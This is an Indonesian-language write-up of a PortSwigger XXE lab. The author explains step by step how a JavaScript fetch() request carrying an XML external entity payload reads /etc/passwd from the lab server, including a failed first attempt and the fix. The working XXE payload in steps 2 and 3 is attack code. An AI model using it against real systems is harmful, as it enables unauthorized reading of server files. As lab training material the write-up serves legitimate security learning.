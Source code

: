 ## 4. XXE Injection: Mengambil Konten File 

### 4.1. [Soal]

-   **Nama Laboratorium:** Exploiting XXE to retrieve files
-   **Deskripsi:** Laboratorium ini memiliki kerentanan XML External Entity (XXE). Tujuannya adalah untuk mengeksploitasi kerentanan ini untuk mengambil dan menampilkan isi dari file `/etc/passwd` di sistem operasi server.

### 4.2. [Link resource untuk latihan.]

`https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files`

### 4.3. Jawaban + Bukti

#### Step-by-step yang sudah dicoba

1.  **Analisis Fungsi Aplikasi dan Persiapan:** Saya mengidentifikasi bahwa fitur "Check stock" pada halaman produk kemungkinan besar berkomunikasi dengan server menggunakan XML. Karena saya tidak menggunakan Burp Suite, saya berencana untuk membuat *request* HTTP saya sendiri dari awal menggunakan Developer Tools (F12) di browser, khususnya pada tab "Console".

2.  **Percobaan Pertama dan Analisis Kegagalan (Error 400):** Saya membuat payload XXE pertama saya menggunakan fungsi `fetch()` di JavaScript.
    -   **Kode yang dicoba (Salah):**
        ```javascript
        const xmlPayload = `
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
        <stockCheck>
            <productId>&xxe;</productId>
            <storeId>1</storeId>
        </stockCheck>
        `;
        
        fetch('/product/stock', { /* ... */ });
        ```
    -   Ketika saya menjalankan kode ini, saya mendapatkan error `POST https://.../product/stock 400 (Bad Request)` di console. Setelah diperiksa lebih lanjut, pesan error dari parser XML server adalah `The processing instruction target matching "[xX][mM][lL]" is not allowed.`.
    -   Ini mengindikasikan bahwa deklarasi `<?xml ... ?>` tidak berada di awal dokumen, yang disebabkan oleh baris baru (*newline*) di dalam *template literal* JavaScript saya.

3.  **Koreksi Payload dan Eksekusi Ulang:** Saya memperbaiki payload dengan menghapus spasi atau baris baru di awal string XML, sehingga deklarasi `<?xml ... ?>` menjadi karakter pertama.
    -   **Kode yang diperbaiki (Benar):**
        ```javascript
        const xmlPayload = `<?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
        <stockCheck>
            <productId>&xxe;</productId>
            <storeId>1</storeId>
        </stockCheck>
        `;

        fetch('/product/stock', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/xml'
            },
            body: xmlPayload
        })
        .then(response => response.text())
        .then(data => console.log(data));
        ```
    -   Saya menempelkan kode yang sudah diperbaiki ini ke dalam console dan menekannya.

4.  **Verifikasi Hasil:** Setelah kode dieksekusi, respons dari server langsung dicetak di console. Respons tersebut berisi pesan error dari aplikasi yang digabungkan dengan konten dari file `/etc/passwd`. Ini adalah bukti keberhasilan eksploitasi.

#### Bukti Screenshot

#### Catatan hasil percobaan

-   **Status:** Berhasil.
-   **Alasan:** Aplikasi memiliki parser XML yang rentan terhadap XXE karena tidak menonaktifkan resolusi entitas eksternal. Dengan mengirimkan payload XML yang dibuat dengan benar, saya berhasil memaksa server untuk membaca file lokal (`/etc/passwd`) dan memasukkan isinya ke dalam respons. Aplikasi kemudian menampilkan konten file ini sebagai bagian dari pesan error "Invalid product ID".
-   **Refleksi:**
    -   Pengalaman ini mengajarkan pentingnya detail sintaks. Sebuah baris baru yang tampaknya sepele dapat menyebabkan seluruh payload gagal. Memahami pesan error dari server adalah kunci untuk mendiagnosis masalah.
    -   Saya belajar bahwa kerentanan sisi server yang kompleks seperti XXE dapat dieksploitasi sepenuhnya hanya dengan menggunakan *tools* bawaan browser, selama kita memahami cara kerja protokol HTTP dan format data yang digunakan.
    -   Kebocoran informasi melalui pesan error adalah pola kerentanan yang umum. Aplikasi seharusnya tidak pernah menampilkan kembali input pengguna yang tidak valid secara mentah dalam pesan error.